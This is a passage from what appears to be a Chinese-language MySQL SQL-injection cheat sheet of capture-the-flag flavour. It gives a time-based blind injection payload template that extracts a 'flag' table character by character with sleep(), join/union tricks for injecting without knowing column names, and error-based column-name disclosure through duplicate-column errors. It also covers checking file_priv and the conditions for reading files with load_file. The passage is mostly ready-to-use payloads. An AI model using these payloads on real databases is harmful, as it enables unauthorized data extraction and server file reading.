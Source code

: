 

```mysql
id='1'-if(substr((select concat(`1`,0x3a,`2`) from (select 1,2 union select * from flag)a limit 1,1),{},1)='{}',concat(sleep(3),1-~0),1-~0)-'
```



## 利用 Join 进行无列名注入



```mysql
select * from (select * from (select 1 `a`)m join (select 2 `b`)n union select * from test3)x;
 
select a from (select * from (select 1 `a`)m join (select 2 `b`)n union select * from test3)x;
```



## 利用join 、 join + using 报错获取列名



```sql
mysql> select * from (select * from test3 as a join test3 b)c;
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select * from (select * from test3 as a join test3 b using(id))c;
ERROR 1060 (42S21): Duplicate column name 'username'
```

![](https://blog-1301895608.cos.ap-guangzhou.myqcloud.com/img2/20210815213522.png)



# 7. 权限相关







## 文件相关

查询用户读写权限

```
SELECT file_priv FROM mysql.user WHERE user = 'username';
```

### load_file

load_file函数：

> 1、文件权限：需要有文件读权限，可以查询file_priv
>
> 2、文件大小: 必须小于max_allowed_packet 
>
> 3、文件绝对路径：需要知道绝对路径
